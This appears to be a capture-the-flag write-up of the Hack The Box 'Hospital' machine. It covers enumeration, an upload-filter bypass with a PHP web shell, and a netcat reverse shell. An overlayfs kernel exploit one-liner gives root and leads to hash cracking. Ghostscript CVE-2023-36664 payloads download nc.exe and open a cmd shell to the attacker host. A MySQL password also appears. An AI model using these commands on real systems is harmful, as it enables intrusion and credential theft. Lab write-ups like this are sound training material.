# HOSPITAL HTB - WRITEUP


## Introduction


Welcome to "Hospital" on Hack The Box, an immersive cybersecurity challenge designed to test your prowess across both Linux and Windows environments. Within this simulated hospital setting, you'll encounter a diverse array of vulnerabilities, ranging from upload RCE exploits to intricate password hash cracking techniques. Our mission ? Is to navigate through this challenge, leveraging ours skills to strengthen the hospital's security posture. 
By delving into the intricacies of both operating systems, we'll gain invaluable experience in penetration testing and vulnerability assessment. Together, let's embark on this journey to fortify Hospital against cyber threats and ensure the safety of its digital infrastructure. Are you ready to rise to the challenge? Let's begin our quest for enhanced security.

## Matrix




## Enumeration

I kick off the process by enumerating ports using AutoRecon(Tool only for CTF environnemnt, too noisy in real pentest imo') and it appear that we've an AD ? I'm left my dog Bloody outsite ..

```
# Nmap 7.94SVN scan initiated Sat Jan 20 17:49:14 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -oN /home/shnks/HTB/Hospital/results/hospital.htb/scans/_quick_tcp_nmap.txt -oX /home/shnks/HTB/Hospital/results/hospital.htb/scans/xml/_quick_tcp_nmap.xml hospital.htb
Nmap scan report for hospital.htb (10.10.11.241)
Host is up, received user-set (0.026s latency).
Scanned at 2024-01-20 17:49:15 CET for 291s
Not shown: 980 filtered tcp ports (no-response)
PORT     STATE SERVICE           REASON  VERSION
22/tcp   open  ssh               syn-ack OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEOWkMB0YsRlK8hP9kX0zXBlQ6XzkYCcTXABmN/HBNeupDztdxbCEjbAULKam7TMUf0410Sid7Kw9ofShv0gdQM=
|   256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGH/I0Ybp33ljRcWU66wO+gP/WSw8P6qamet4bjvS10R
53/tcp   open  domain            syn-ack Simple DNS Plus
88/tcp   open  kerberos-sec      syn-ack Microsoft Windows Kerberos (server time: 2024-01-20 23:49:32Z)
135/tcp  open  msrpc             syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn       syn-ack Microsoft Windows netbios-ssn
389/tcp  open  ldap              syn-ack Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
| SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
| -----BEGIN CERTIFICATE-----
| MIIC+TCCAeGgAwIBAgIQdNv8q6fykq5PQSM0k1YFAjANBgkqhkiG9w0BAQsFADAN
[..blablabla.]
| eh2XVUa9NjHJi5hvdH3wy6/jU4UwPED41iuM6Y1rwF/l4J0LmELsmmYZEaWm
|_-----END CERTIFICATE-----
443/tcp  open  ssl/http          syn-ack Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
| SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
|[..blablabla.]
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
| tls-alpn: 
|_  http/1.1
|_http-favicon: Unknown favicon MD5: 924A68D347C80D0E502157E83812BB23
445/tcp  open  microsoft-ds?     syn-ack
464/tcp  open  kpasswd5?         syn-ack
593/tcp  open  ncacn_http        syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?          syn-ack
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
| SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
| -----BEGIN CERTIFICATE-----
| MIIC+TCCAeGgAwIBAgIQdNv8q6fykq5PQSM0k1YFAjANBgkqhkiG9w0BAQsFADAN
[..blablabla.]
| eh2XVUa9NjHJi5hvdH3wy6/jU4UwPED41iuM6Y1rwF/l4J0LmELsmmYZEaWm
|_-----END CERTIFICATE-----
1801/tcp open  msmq?             syn-ack
2103/tcp open  msrpc             syn-ack Microsoft Windows RPC
2105/tcp open  msrpc             syn-ack Microsoft Windows RPC
2107/tcp open  msrpc             syn-ack Microsoft Windows RPC
2179/tcp open  vmrdp?            syn-ack
3268/tcp open  ldap              syn-ack Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
| SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
| -----BEGIN CERTIFICATE-----
| MIIC+TCCAeGgAwIBAgIQdNv8q6fykq5PQSM0k1YFAjANBgkqhkiG9w0BAQsFADAN
[..blablabla.]
| eh2XVUa9NjHJi5hvdH3wy6/jU4UwPED41iuM6Y1rwF/l4J0LmELsmmYZEaWm
|_-----END CERTIFICATE-----
3269/tcp open  globalcatLDAPssl? syn-ack
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
| SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
| -----BEGIN CERTIFICATE-----
| MIIC+TCCAeGgAwIBAgIQdNv8q6fykq5PQSM0k1YFAjANBgkqhkiG9w0BAQsFADAN
[..blablabla.]
| eh2XVUa9NjHJi5hvdH3wy6/jU4UwPED41iuM6Y1rwF/l4J0LmELsmmYZEaWm
|_-----END CERTIFICATE-----
3389/tcp open  ms-wbt-server     syn-ack Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.hospital.htb
| Issuer: commonName=DC.hospital.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-05T18:39:34
| Not valid after:  2024-03-06T18:39:34
| MD5:   0c8a:ebc2:3231:590c:2351:ebbf:4e1d:1dbc
| SHA-1: af10:4fad:1b02:073a:e026:eef4:8917:734b:f8e3:86a7
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQJ8MSkg5FM7tDDww5/eWcbjANBgkqhkiG9w0BAQsFADAa
| [..blablabla.]
| zXOe5MnTuI+omoq6zEeUs5It4jL1Yg==
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-01-20T23:53:25+00:00
8080/tcp open  http              syn-ack Apache httpd 2.4.55 ((Ubuntu))
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.55 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: Hosts: DC, www.example.com; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

```

Meanwhile I did gobuster to enumerate, and I seen 3 other subdomain 

``gobuster dns -d hospital.htb -r hospital.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt``

 


We also run a path enumeration with dirsearch to find our first entry point. Other port enumerations yielded no fruitful results, no users for ASREPRoastable enumeration, LDAP enumeration impossible (both null and anonymous sessions), no transfers on port 53, and IPv6 address can be disregarded.

``dirsearch -u http://dc.hospital.htb:8080 --exclude-status 400,401,402,403,404,500,501,502,503,504``




Port 443 is open, but after multiple attempts to bypass authentication, reading code, we'll leave it for later. It may prove useful in the future.








Once connected, we can upload files, which seems promising as it's the only functionality available after login. This appears to be the only path forward.




When uploading a PNG, GIF, or JPEG file, we're redirected to **success.php.**; otherwise, to .**failed.php.**\
After some research, we can bypass this with what's known as a *"polyglot file".*

 


 aussi pour extension phps / pgif



These article help me a lot : \
https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology

https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a


After injecting a PHP reverse shell, it was impossible to establish an incoming connection from the machine.
Due to I/O error system







https://medium.com/@tushar_rs_/remote-command-execution-through-file-upload-rce-3e72cb178bb8 --> https://github.com/flozz/p0wny-shell

https://medium.com/@tushar_rs_/remote-command-execution-through-file-upload-rce-3e72cb178bb8

However, an IO problem becomes evident from the screenshot, rendering the attainment of a reverse shell unattainable. Consequently, we opt to employ P0nyshell to address this issue effectively.



 



## First FootHold 

Ww executed this command and get reverse shell !

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 1234 >/tmp/f```


After establishing connectivity, my initial reflex is to examine any configuration files associated with the service on port 443 discovered earlier. However, upon reflection, this approach seems misguided, as the machine is identified as Windows based on the Nmap scan results. Consequently, we abandon this line of inquiry.

``www-data@webserver:/var/www/html$ find / -name webmail 2>/dev/null 
www-data@webserver:/var/www/html$ find / -name roundcube 2>/dev/null``  --> nothing 


Though credentials for MySQL are discovered early on, attempts to connect to it prove futile, hinting at the possibility of a potential rabbit hole.

```
www-data@webserver:/var/www/html$ cat config.php 
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```


##  First Privilege Escalation


After several unsuccessful attempts, I revisit my notes and initiate a privilege escalation at the source. This involves inspecting the SUID binaries, followed by a naïve execution of sudo -l, and subsequently checking the kernel version. This effort eventually leads to the identification of our next exit route: ``CVE-2023-032629.``

We execute this payload to get root privilege because kernel version was old `(5.19.0)`

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```


Subsequently, while exploring the files as root (and not NT\Authority), three interesting usernames are encountered: google, josharian, mdlayher, vishvananda from /home/drwilliams/go/pkg/mod/github.com. \
Unfortunately, nothing of significance is discovered, save for a Go project.


Capitalizing on my newfound root status, I seize the opportunity to retrieve Dr. Williams' hash and proceed to crack it using our trusty ally John.

`$6$uWBSe***blablablasomerandomstuffs***W192y/:19612:0:99999:7:::`





and our best friend John gave us the password !

## 2<sup>nd</sup> FootHold 

With the password successfully obtained, we can finally return to the website on port 443. Upon logging in, we stumble upon an intriguing email tasking us with designing something in .eps format for viewing by GhostScript.





```
Dear Lucy,

I wanted to remind you that the project for lighter, cheaper and
environmentally friendly needles is still ongoing 💉. You are the one in
charge of providing me with the designs for these so that I can take
them to the 3D printing department and start producing them right away.
Please make the design in an ".eps" file format so that it can be well
visualized with GhostScript.

Best regards,
Chris Brown.
```

*Notice that .eps --> adobe format stand for encapsulated postscript*

After reading the email, it is clear that we need to send him a .eps file. Fortunately, the first GitHub link we found provides a Proof of Concept (PoC) on an exploit that allows us to achieve Remote Code Execution (RCE) that's the **CVE-2023–36664**. \
To accomplish this, we ensure that the target machine has Netcat installed, so we send it first, and then proceed to use the sent file (Netcat) to execute commands.


Some ref : \
https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection.git

https://www.youtube.com/watch?v=Gh-A49rqrJI&ab_channel=%C3%81kosJakab


```bash
python3 CVE_2023_36664_exploit.py --inject --payload "curl http://10.10.14.7/nc.exe -o nc.exe" --filename file.eps

```
and,

```bash
python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe 10.10.14.7 1234 -e cmd" --filename rv.eps

```

Once this is done, we reply to this email, clicking on the paperclip icon (attachment), selecting the file, and then sending it in return. 

